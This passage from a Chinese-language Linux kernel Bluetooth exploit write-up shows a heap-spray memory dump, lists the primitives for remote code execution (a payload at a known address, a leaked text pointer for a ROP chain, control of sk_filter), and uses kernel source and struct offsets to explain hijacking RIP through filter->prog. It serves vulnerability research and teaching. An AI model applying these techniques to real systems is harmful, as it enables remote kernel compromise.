 ```
0xffff98ee5c62fd20:  0x6565656565656565  0x6666666666666666
0xffff98ee5c62fd30:  0x6767676767676767  0x6868686868686868
```  
  
内存内容看起来非常有希望！请注意，使用模式进行喷射非常有用，因为这使我们能够立即识别内存块，并了解在发生恐慌时哪些偏移量会被取消引用。  
### 将所有东西整合在一起  
  
现在，我们已经拥有完成 RCE 所需的所有原语：  
1. 我们可以控制我们知道其地址的内存块（称为“有效负载”）。  
  
1. 我们可以泄漏一个 .text 段指针并构建一个 ROP 链，将其存储在有效载荷中。  
  
1. 我们可以完全控制该sk_filter  
领域并将其指向我们的有效载荷。  
  
#### 实现 RIP 控制  
  
让我们回顾一下sk_filter_trim_cap()  
，并了解为什么控制sk_filter  
是有益的。  
```
// https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/net/core/filter.c
int sk_filter_trim_cap(struct sock *sk, struct sk_buff *skb, unsigned int cap)
{
  ...
  rcu_read_lock();
  filter = rcu_dereference(sk->sk_filter);
  if (filter) {
    struct sock *save_sk = skb->sk;
    unsigned int pkt_len;

    skb->sk = sk;
    pkt_len = bpf_prog_run_save_cb(filter->prog, skb);
    skb->sk = save_sk;
    err = pkt_len ? pskb_trim(skb, max(cap, pkt_len)) : -EPERM;
  }
  rcu_read_unlock();

  return err;
}
```  
  
由于我们可以控制 的值filter  
，因此我们也可以filter->prog  
通过在有效载荷中的偏移量 0x18 处放置一个指针来控制。也就是说，这是 的偏移量prog  
：  
```
// pahole -E -C sk_filter --hex bluetooth.ko
struct sk_filter {
  ...
  struct bpf_prog *          prog;                                                 /*  0x18   0x8 */

  /* size: 32, cachelines: 1, members: 3 */
  /* sum members: 28, holes: 1, sum holes: 4 */
  /* forced alignments: 1, forced holes: 1, sum forced holes: 4 */
  /* last cacheline: 32 bytes */
} __attribute__((__aligned__(8)));
```  
  